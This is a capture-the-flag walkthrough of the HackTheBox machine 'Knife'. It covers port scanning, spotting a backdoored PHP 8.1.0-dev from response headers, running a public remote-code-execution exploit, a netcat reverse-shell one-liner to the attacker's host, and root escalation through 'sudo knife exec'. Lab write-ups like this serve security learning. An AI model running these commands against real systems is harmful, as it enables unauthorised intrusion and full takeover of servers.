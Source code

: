 ```yaml
---
title: "Walk-through of Knife from HackTHeBox"
header:
  teaser: /assets/images/2021-09-19-22-50-03.png
toc: true
toc_sticky: true
excerpt_separator:  <!--more-->
categories:
  - CTF
tags:
  - HTB
  - CTF
  - Linux
  - 8.1.0-dev
  - Chef
  - Knife
---
```


## Machine Information

![knife](/assets/images/2021-09-19-22-50-03.png)

Knife is rated as an easy machine on HackTheBox. An initial scan reveals a simple website running on port 80. Examining headers we discover it's running on a backdoored version of PHP. Using a public exploit we get an initial shell. From there we move to a more useable reverse shell, and enurmeration finds sudo privleges for Knife. We use this Chef command line tool to escalate to root to complete the box.

<!--more-->

Skills required are basic enumeration knowledge and researching exploits. Skills learned are exploiting vulnerable software and using Knife for escalation of privleges.

| Details |  |
| --- | --- |
| Hosting Site | [HackTheBox](https://www.hackthebox.eu) |
| Link To Machine | [HTB - Easy - Knife](https://www.hackthebox.eu/home/machines/profile/347) |
| Machine Release Date | 22nd May 2021 |
| Date I Completed It | 20th September 2021 |
| Distribution Used | Kali 2021.2 – [Release Info](https://www.kali.org/blog/kali-linux-2021-2-release/) |

## Initial Recon

As always let's start with Nmap:

```text
┌──(root💀kali)-[~/htb/knife]
└─# ports=$(nmap -p- --min-rate=1000 -T4 10.10.10.242 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)

┌──(root💀kali)-[~/htb/knife]
└─# nmap -p$ports -sC -sV -oA knife 10.10.10.242
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-19 22:54 BST
Nmap scan report for 10.10.10.242
Host is up (0.069s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We find just two open ports, with ssh on 22 a no go for now. Let's see what's running on Apache on port 80:

![knife-website](/assets/images/2021-09-19-22-56-59.png)

A simple web page is all that's here. With nothing in the source code I used cURL to check the headers:

```text
┌──(root💀kali)-[~/htb/knife]
└─# curl -v http://10.10.10.242
*   Trying 10.10.10.242:80...
* Connected to 10.10.10.242 (10.10.10.242) port 80 (#0)
> GET / HTTP/1.1
> Host: 10.10.10.242
> User-Agent: curl/7.74.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Sun, 19 Sep 2021 21:55:41 GMT
< Server: Apache/2.4.41 (Ubuntu)
< X-Powered-By: PHP/8.1.0-dev
< Vary: Accept-Encoding
< Transfer-Encoding: chunked
< Content-Type: text/html; charset=UTF-8
```

Note in the response we see X-Powered-By. A good explanation of headers in general is [here](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers) on the Mozilla dev site. For X-Powered-By it says:

```text
X-Powered-By
May be set by hosting environments or other frameworks and contains information about them while not providing any usefulness to the application or its visitors. Unset this header to avoid exposing potential vulnerabilities.
```

I'm wondering why this site would be running a dev version of PHP, looking on exploit-db I find the answer [here](https://www.exploit-db.com/exploits/49933):

```text
An early release of PHP, the PHP 8.1.0-dev version was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.
The following exploit uses the backdoor to provide a pseudo shell ont the host.
```

## PHP Exploit

So this site is running a backdoored version of PHP, let's grab the exploit and try it:

```text
┌──(root💀kali)-[~/htb/knife]
└─# searchsploit 8.1.0-dev
--------------------------------------------------------------- ---------------------------------
 Exploit Title                                                 |  Path
--------------------------------------------------------------- ---------------------------------
PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution            | php/webapps/49933.py
--------------------------------------------------------------- ---------------------------------

┌──(root💀kali)-[~/htb/knife]
└─# searchsploit -m php/webapps/49933.py
  Exploit: PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution
      URL: https://www.exploit-db.com/exploits/49933
     Path: /usr/share/exploitdb/exploits/php/webapps/49933.py
File Type: Python script, ASCII text executable
Copied to: /root/htb/knife/49933.py
                         
┌──(root💀kali)-[~/htb/knife]
└─# python3 ./49933.py
Enter the full host url:
http://10.10.10.242

Interactive shell is opened on http://10.10.10.242 
Can't acces tty; job crontol turned off.
$
```

## User Flag

That was nice and easy to get a basic shell. Let's have a quick look around:

```text
$ whoami
james

$ pwd
/

$ ls -l
lrwxrwxrwx   1 root root     7 Feb  1  2021 bin -> usr/bin
drwxr-xr-x   4 root root  4096 Jul 23 13:37 boot
drwxr-xr-x   2 root root  4096 May  6 14:10 cdrom
drwxr-xr-x  19 root root  4020 Sep 20 09:01 dev
drwxr-xr-x  99 root root  4096 May 18 13:25 etc
drwxr-xr-x   3 root root  4096 May  6 14:44 home
<SNIP>
drwxr-xr-x   2 root root  4096 Feb  1  2021 srv
dr-xr-xr-x  13 root root     0 Sep 20 09:01 sys
drwxrwxrwt  17 root root 12288 Sep 20 19:25 tmp
drwxr-xr-x  15 root root  4096 May 18 13:20 usr
drwxr-xr-x  14 root root  4096 May  9 04:22 var

$ cat /home/james/user.txt
<HIDDEN>
```

I'm connected as the user James so I've grabbed the flag, now let's start a netcat listener in another terminal and connect to it to get a proper shell:

```text
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.211 4444 >/tmp/f
```

Switch to my waiting nc session to see we're connected:

```text
┌──(root💀kali)-[~/htb/knife]
└─# nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.211] from (UNKNOWN) [10.10.10.242] 50628
/bin/sh: 0: can't access tty; job control turned off
$
```

## Privilege Escalation

I had a quick look around but one of the first things to check is sudo rights, which was the right path for this box:

```text
$ sudo -l 
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

I'd not heard of knife before, but running it reveals more:

```text
$ sudo /usr/bin/knife
ERROR: You need to pass a sub-command (e.g., knife SUB-COMMAND)

Usage: knife sub-command (options)
    -s, --server-url URL             Chef Infra Server URL.
        --chef-zero-host HOST        Host to start Chef Infra Zero on.
        --chef-zero-port PORT        Port (or port range) to start Chef Infra Zero on. Port ranges like 1000,1010 or 8889-9999 will try all given ports until one works.
    -k, --key KEY                    Chef Infra Server API client key.
        --[no-]color                 Use colored output, defaults to enabled.
    -c, --config CONFIG              The configuration file to use.
        --config-option OPTION=VALUE Override a single configuration option.
```

Knife is a command line tool for Chef which is an automation platform. From the Chef site [here](https://docs.chef.io/platform_overview/):

```text
Chef Infra is a powerful automation platform that transforms infrastructure into code. Whether you’re operating in the cloud, on-premises, or in a hybrid environment, Chef Infra automates how infrastructure is configured, deployed, and managed across your network, no matter its size.
```

## Root Flag

A look around the docs I found [this](https://docs.chef.io/workstation/knife_exec) which shows how to use knife to execute Ruby scripts. I also found [this](https://manned.org/knife-exec/dd85a3df) which shows you can also use it to run commands. So privilege escalation is trivial with our sudo permissions:

```text
$ sudo knife exec --exec "exec '/bin/sh -i'"
/bin/sh: 0: can't access tty; job control turned off
# whoami
root

# id
uid=0(root) gid=0(root) groups=0(root)

# cat /root/root.txt
<HIDDEN>
```

All done. See you next time.

